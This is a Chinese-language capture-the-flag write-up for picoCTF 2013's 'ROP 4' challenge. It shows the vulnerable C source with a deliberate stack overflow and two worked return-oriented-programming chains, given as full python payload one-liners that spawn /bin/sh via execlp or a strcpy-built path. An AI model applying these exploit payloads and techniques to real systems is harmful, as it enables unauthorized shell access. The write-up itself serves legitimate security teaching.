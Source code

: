 ```yaml
---
layout: post
title: ROP 4
categories: writeups
tags: pwn
ctfsite: picoctf-2013
challenge_url: https://github.com/picoCTF/picoCTF-2013-problems/tree/master/ROP%204
---
```


这道题是 PicoCTF 2013 ROP 系列的最后一题：

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char exec_string[20];

void exec_the_string() {
	execlp(exec_string, exec_string, NULL);
}

void call_me_with_cafebabe(int cafebabe) {
	if (cafebabe == 0xcafebabe) {
		strcpy(exec_string, "/sh");
	}
}

void call_me_with_two_args(int deadbeef, int cafebabe) {
	if (cafebabe == 0xcafebabe && deadbeef == 0xdeadbeef) {
		strcpy(exec_string, "/bin");
	}
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 512);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
	exec_string[0] = '\0';
	be_nice_to_people();
	vulnerable_function();
}
```

{% include writeup_begin.html %}

首先 `file` 一下这个程序：

```
dontpanic@Ubuntu:~$ file rop4
rop4: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=58db790a742bb1b283bc3301fa309bf5f4e23b27, not stripped
```

它是静态链接的、非位置无关的可执行文件，因此不会有 ASLR 的问题。`execlp` 的原型如下：

```c
int execlp(const char *file, const char *arg, ...);
```

第一个参数是文件路径，第二个参数是 `argv[0]`，也就是程序名称。第二个参数比较随意，我们传入与第一个参数相同的字符串就可以了。这个函数还需要最终传入一个 `NULL` 用来结尾。

下面要解决的就是 "/bin/sh" 应该如何构建。

#### 使用现有的 /bin/sh 字符串

radare2 搜索一下就会发现，我们仍然有现成的 "/bin/sh" 可以利用：

```
[0x08048df8]> iz | grep bin/sh
382 0x00083f4f 0x080cbf4f   7   8 (.rodata) ascii /bin/sh 
```

因此可以直接构造出如下命令进行爆破：

```python
                                  ↓返回地址（call execlp）          ↓第二个参数（/bin/sh）
(python -c "print '0'*0x88 + '0000\xed\x8e\x04\x08\x4f\xbf\x0c\x08\x4f\xbf\x0c\x08\x00\x00\x00\x00\n'";cat) | ./rop4
							 ↑ebp                 ↑第一个参数（/bin/sh）            ↑第三个参数（NULL）
```

#### 构造出 /bin/sh 字符串

如果没有现成的字符串怎么办呢？也有办法，我们可以自行构造出 “/bin/sh”。首先 `call_me_with_two_args` 中，已经向 `exec_string` 拷贝了 `/bin`；我们下面要做的就是在后面街上 `/sh`，这可以通过调用 `strcpy` 来实现；然后我们就可以直接调用 `exec_the_string` 函数了。

首先看一下 `call_me_with_two_args`：

```asm
/ (fcn) sym.call_me_with_two_args 45
|   sym.call_me_with_two_args (int arg_8h, int arg_ch);
|           ; arg int arg_8h @ ebp+0x8
|           ; arg int arg_ch @ ebp+0xc
|           0x08048f0e      55             push ebp
|           0x08048f0f      89e5           mov ebp, esp
|           0x08048f11      817d0cbebafe.  cmp dword [arg_ch], 0xcafebabe ; [0xcafebabe:4]=-1
|       ,=< 0x08048f18      751f           jne 0x8048f39
|       |   0x08048f1a      817d08efbead.  cmp dword [arg_8h], 0xdeadbeef ; [0xdeadbeef:4]=-1
|      ,==< 0x08048f21      7516           jne 0x8048f39
|      ||   0x08048f23      b8cc5e0c08     mov eax, str.bin            ; 0x80c5ecc ; "/bin"
|      ||   0x08048f28      8b10           mov edx, dword [eax]
|      ||   0x08048f2a      89152c110f08   mov dword [obj.exec_string], edx ; [0x80f112c:4]=0
|      ||   0x08048f30      0fb64004       movzx eax, byte [eax + 4]   ; [0x4:1]=255 ; 4
|      ||   0x08048f34      a230110f08     mov byte [0x80f1130], al    ; [0x80f1130:1]=0
|      ||      ; JMP XREF from 0x08048f18 (sym.call_me_with_two_args)
|      ||      ; JMP XREF from 0x08048f21 (sym.call_me_with_two_args)
|      ``-> 0x08048f39      5d             pop ebp
\           0x08048f3a      c3             ret

```

溢出后的第一个目标就是跳到 `0x08048f23`，先填充上 “/bin”

```python
print '0'*0x88 + '0000\x23\x8f\x04\x08'
                 ↑ebp ↑返回地址
```

然后向下执行，会 `pop` 一下 `ebp`，这个我们随便填上点东西就可以了；然后 `call_me_with_two_args` 返回，我们需要它返回至 `strcpy`，同时还需要构造 strcpy 的参数：

```python
                                          ↓call_me_with_two_args pop ebp        ↓strcpy参数1    ↓strcpy参数2
print '0'*0x88 + '0000\x23\x8f\x04\x08' + '0000\xAA\xAA\xAA\xAA\x??\x??\x??\x??\xBB\xBB\xBB\xBB\xCC\xCC\xCC\xCC'
                 ↑ebp ↑返回地址                 ↑strcpy的地址    ↑strcpy的返回地址
```

首先先来确定 `strcpy` 的地址。在 r2 中查一下符号：

```
[0x08048df8]> is | grep strcpy
513 0x000260c0 0x0806e0c0  LOCAL   FUNC  139 __strcpy_ia32
881 0x00026070 0x0806e070 GLOBAL   LOOS   69 strcpy
1687 0x0002aa40 0x08072a40 GLOBAL   FUNC 6219 __strcpy_ssse3
1864 0x00030670 0x08078670 GLOBAL   FUNC 1509 __strcpy_sse2
```

上面的 `strcpy` 只是一个入口，会根据 CPU 的不同特性**返回**不同实现的地址（而不是继续调用实现函数），因此这个并不是我们想要的。我们可以直接调用 `__strcpy_ia32`。

至于参数，第一个参数自然就是 `exec_string + 4`，第二个参数是 `/sh` 的地址。

在上面的命令中，还有一块 `\x??\x??\x??\x??` 没有确定。这是 `strcpy` 函数的返回地址。这里直接填入 `exec_the_string` 函数的地址即可。因此完整的爆破命令为：

```python
                                                      ↓call_me_with_two_args pop ebp        ↓strcpy参数1    ↓strcpy参数2
(python -c "print '0'*0x88 + '0000\x23\x8f\x04\x08' + '0000\xc0\xe0\x06\x08\xd0\x8e\x04\x08\x30\x11\x0f\x08\xc8\x5e\x0c\x08\n'";cat) | ./rop4
                             ↑ebp ↑返回地址                 ↑strcpy的地址    ↑strcpy的返回地址
```

{% include writeup_end.html %}
